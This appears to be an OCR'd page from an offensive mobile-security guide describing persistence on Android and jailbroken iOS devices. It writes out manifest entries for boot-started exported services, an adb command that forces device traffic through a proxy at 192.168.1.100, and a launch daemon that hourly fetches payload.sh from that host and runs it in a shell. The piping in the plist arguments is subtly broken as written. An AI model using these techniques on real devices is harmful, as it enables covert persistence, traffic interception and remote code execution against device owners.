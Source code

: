 
### Android Persistence Techniques
```bash
# Create a service in Android app
# Add to AndroidManifest.xml:
<service android:name=".PersistenceService" android:enabled="true" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED"/>
    </intent-filter>
</service>

# Add receiver in AndroidManifest.xml
<receiver android:name=".BootReceiver" android:enabled="true" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED"/>
    </intent-filter>
</receiver>

# Modify device settings (requires root)
adb shell settings put global http_proxy 192.168.1.100:8080
```

### iOS Persistence (Limited to Jailbroken Devices)
```bash
# Create launch daemon
cat > /Library/LaunchDaemons/com.persistence.plist << EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.persistence</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/bin/curl</string>
        <string>-s</string>
        <string>http://192.168.1.100/payload.sh</string>
        <string>|</string>
        <string>/bin/sh</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>StartInterval</key>
    <integer>3600</integer>
</dict>
</plist>
EOF

launchctl load -w /Library/LaunchDaemons/com.persistence.plist
```
